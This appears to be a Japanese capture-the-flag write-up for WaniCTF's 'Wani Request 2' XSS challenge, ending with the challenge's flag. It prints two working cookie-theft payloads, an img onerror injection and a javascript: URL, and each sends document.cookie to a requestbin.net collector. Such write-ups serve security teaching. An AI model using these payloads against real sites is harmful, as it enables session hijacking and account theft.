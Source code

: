 # Wani Request 2 (250pt Normal)
# 問題文
XSS Challenge !!

https://request2.web.wanictf.org/

チャレンジは二つです。

あどみんちゃんのクッキーを手に入れてください。

Wani Request 1 と同じくRequestBinなどを利用してみましょう。

# やったこと
与えられたリンクにアクセスすると
二つのチャレンジがあることがわかった．

## チャレンジ1

まず1つ目のチャレンジ
![](s1.png)

あどみんちゃんが
"https://request2.web.wanictf.org/page1?wani="
にアクセスするっぽい．

waniでXSSを発生させてあどみんちゃんのCookieをRequestBinに送信させる．

ちょっと試行錯誤した結果以下の入力でXSSを発生させることができた．

```
<img src="x" onerror="location.href='http://requestbin.net/r/gu8eetgf?'%2bdocument.cookie">
```

送信したらフラグの前半部分が送られてきた

![](s2.png)

FLAG{y0u_4r3_x55

## チャレンジ2
2つ目のチャレンジ
![](s3.png)

入力したURLにアクセスするっぽい．

以下の入力でXSSを発生させることができた．

```
javascript:location.href="http://requestbin.net/r/b0xs5izm?"+document.cookie
```

送信したらフラグの後半部分が送られてきた．
![](s4.png)
-60d_c75a4c80cf07}

合体させると一つのフラグになる．

# フラグ
FLAG{y0u_4r3_x55-60d_c75a4c80cf07}

